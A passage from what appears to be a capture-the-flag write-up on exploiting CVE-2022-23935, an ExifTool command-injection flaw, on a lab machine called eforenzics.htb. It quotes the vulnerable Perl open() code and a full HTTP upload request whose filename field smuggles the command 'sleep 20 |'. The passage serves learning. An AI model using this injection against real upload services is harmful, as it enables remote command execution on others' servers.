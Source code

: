 So, the app likelly shells out to [ExifTool](https://exiftool.org/), which is a perl-based library and command line app for reading, writing and editing meta information across image formats.

To speed things up and avoid binary noise of a larger file, let's resize our black cat image to an ultra ultra high definition resolution of 16x10:

```bash
$convert black_cat.jpg -resize 16x10 black_cat_sm.jpg
```

Searching for ExifTool 12.37, the first thing I came across was [CVE-2022-23935](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23935), a command injection vulnerability.

Reading a little more thoroughly to try and understand the CVE, the problematic line in ExifTool appears to be:

```perl
$mode = ($file =~ /\|$/ ? '' : '<') unless $mode;
# snip
return open $fh, "$mode$file";
```

This will, using regex, check if the filename ends in a pipe (`|`). Under normal circumstances, this would **not** be the case, so we would open a file descriptor with `< file`, i.e. piping the file contents into an open file descriptor for reading.

However, if the file **does** end in a pipe, the mode is an empty string, and we open a file descriptor and pass argument `$file`.  The documentation for [open](https://perldoc.perl.org/functions/open) in perl states:

```
Instead of a filename, you may specify an external command (plus an optional argument list) or a scalar reference, in order to open filehandles on commands or in-memory scalars, respectively.
```

So, we can specify an external command here, as long as it ends in a pipe.  Sounds fun.  Let's try out `sleep 20` in our form's `filename` data field, and see if the web server hangs:

```
POST /upload.php HTTP/1.1
Host: eforenzics.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://eforenzics.htb/service.html
Content-Type: multipart/form-data; boundary=---------------------------28894344611500965082477156362
Content-Length: 743
Origin: http://eforenzics.htb
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------28894344611500965082477156362
Content-Disposition: form-data; name="image"; filename="sleep 20 |"
Content-Type: image/jpeg
```
